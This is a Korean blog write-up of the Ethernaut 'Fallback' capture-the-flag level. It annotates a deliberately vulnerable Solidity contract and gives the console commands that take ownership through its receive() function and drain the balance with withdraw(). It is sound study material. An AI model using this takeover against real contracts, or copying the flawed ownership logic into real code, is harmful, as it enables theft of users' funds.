 ```yaml
---
emoji: 🧢
title: (Ethernauts 취약점 1) Fallback 
date: '2022-01-02 01:11:00'
author: 한성원
tags: ethernauts fallback vulnerability
categories: 취약점분석
---
```



# 👋 1. Fallback
__Difficulty 1/10__

직접 푼 Ethernauts 풀이를 적어보려고 한다. 취약점에 공부했던 취약점을 실제로 공격해보며 복습 및 실습을 해볼수 있어 좋은 것 같다.

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- contract의 ownership을 뺐어오기
- contract의 balance를 0으로 만들기

- - -

## 코드 분석
분석은 주석에!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

    using SafeMath for uint256;

    // 각각의 address당 ether 기여도(contribution)
    mapping(address => uint) public contributions;

    // Fallback Contract의 owner address
    address payable public owner;

    //constructor
    constructor() public {
        // Deployer를 owner로 설정
        owner = msg.sender;

        // Deployer의 기여도를 1000 ether로 설정
        contributions[msg.sender] = 1000 * (1 ether);
    }

    //Owner만 사용할 수 있게하는 modifier
    modifier onlyOwner {
            // msg.sender가 owner인지 아닌지 확인
            require(
                msg.sender == owner,
                "caller is not the owner"
            );
            _;
        }

    //contract의 기여도를 올릴 수 있는 function이다.
    //payable로 선언되어 ether를 전송하고 받을 수 있다.
    function contribute() public payable {
        //msg.sender가 보낸 ether의 양이 0.001 이하인지 확인
        require(msg.value < 0.001 ether);

        //msg.sender의 기여도(contributions)를 msg.value만큼 올린다.
        contributions[msg.sender] += msg.value;

        //만약 msg.sender의 contributions가 owner의 contributions보다 크다면 ownership이 transfer된다.
        //초기에 owner의 contributions은 1000 ether이기 때문에 ownership을 바꾸기 위해서는 1000 ether이상의 기여해야한다.
        if(contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
        }
    }

    //기여도를 확인할 수 있는 view function
    function getContribution() public view returns (uint) {
        //msg.sender의 기여도를 return 한다.
        return contributions[msg.sender];
    }

    //contract가 가지고 있는 모든 balance(ether)를 owner에게 전송한다.
    function withdraw() public onlyOwner {
        owner.transfer(address(this).balance);
    }

    //payable로 선언되어 ether를 전송하고 받을 수 있다.
    //receive function
    receive() external payable {
        //msg.sender의 msg.value가 0보다 크고 기여도(contributions)가 0보다 큰지 확인한다
        require(msg.value > 0 && contributions[msg.sender] > 0);

        //owner를 msg.sender로 바꾼다.
        owner = msg.sender;
    }
}
```

- - -

## 풀이
우리는 2가지의 문제를 풀어야 한다.
1. contract의 ownership을 뺐어오기
2. contract의 balance를 0으로 만들기

차례차례 풀어보겠다.
코드를 봤을 떄 contract의 ownership을 가져올 수 있는 방법은 2가지가 있다.
- contribute()
- receive()

1. contribute()를 이용해 owner가 되려면 초기 owner의 contributions 1000 ether보다 더 큰 돈을 contract로 보내야 한다.
2. 하지만 contribute()의 require을 보면 한번에 0.001 ether이하의 ether만 보낼 수 있게 되어있다. contract에서 의도한대로 owner가 되려면 __1,000,000 + a__ 번 전송해야한다. 
3. 이 방법은 비용도 많이들고 엄청난 시간이 걸리기 때문에 receive 함수를 확인해보자!
4. receive 함수를 보면 msg.value나 0보다 크고 contributions가 0보다 크면 owner를 msg.sender로 바꿀 수 있다.
5. 그렇다면 contribute() 호출해 작은 값을 보내어 contributions를 0을 초과하게 만든다음 receive함수를 호출하면 owner를 가져올 수 있다.

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
//0.001보다 작은 0.0001을 보낸다.
await contract.contribute.sendTransaction({value:toWei('0.0001')})
//나의 contribution을 확인한다.
fromWei(await contract.getContribution())
//contract의 balance를 확인한다.
await getBalance(instance)
//모두 0.0001과 같을 것이다!

//나의 contribution이 0을 초과했으니 recevice()를 실행 시킬 수 있는 명령어를 실행한다.
contract.sendTransaction({value:toWei('0.0001')})
//contract의 owner address를 확인한다.
await contract.owner()
//나의 address를 확인한다.
player
//play(나)이 owner가 된 것을 확인 할 수 있다.

```
이렇게 ownership을 가져올 수 있었다.   

다음으로 contract의 balance를 0으로 만들기이다. 
contract의 balance를 0을로 만들기는 매우 쉽다!
owner만 call할 수 있는 함수인 withdraw을 call하기만 하면 된다.

```javascript
//withdraw한다.
await contract.withdraw()

//contract의 balance가 0이 된것을 확인한다.
await getBalance(instance)
```

Submit instance를 누르고 조금 기다리면 block이 mine되고, 다음과 같이 뜨면서 다음 level로 넘어갈 수 있다.

![fallback finish](./fallback_finish.png)

- - -
## 마무리
얼마전에 공부했던 king of Ether(DOS with unexpected revert)가 생각난다. revert를 통해 하는 ownership을 가져오는건 아니었지만 비슷한 점이 많은 것 같았다. smart contract을 짤때 logic은 괜찮아보여도 우리가 생각하지 못한 허점이 있을 수 있다! 항상 조심하고 또 조심하자!
나중에는 보안감사(auditing)도 배워 내의 smart contract를 audit 할 수 있었으면 좋겠다! ~~이거로 취업 해야지ㅎ~~

고작 1단계를 완료한 것이지만 게임을 통해 배우니 더 재밌는 것 같다. 앞으로도 화이팅!

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/

```toc

```